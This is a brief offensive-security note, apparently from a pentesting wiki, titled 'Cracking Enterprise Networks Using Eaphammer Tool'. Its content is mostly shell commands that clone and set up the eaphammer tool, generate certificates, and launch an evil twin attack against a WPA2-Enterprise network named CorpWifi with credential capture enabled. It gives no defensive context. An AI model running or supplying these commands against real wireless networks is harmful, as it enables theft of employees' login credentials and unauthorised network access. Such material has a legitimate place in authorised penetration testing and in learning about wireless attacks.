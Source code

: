 # Cracking Enterprise Networks Using Eaphammer Tool

**targeted evil twin attacks against WPA2-Enterprise networks.**

**Installation**

```bash
git clone https://github.com/s0lst1c3/eaphammer.git
./kali-setup
# generate certificates
./eaphammer --cert-wizard

# launch attack
./eaphammer -i wlan0 --channel 4 --auth wpa-eap --essid CorpWifi --creds
```

![image.png](<../../../.gitbook/assets/image (1).png>)
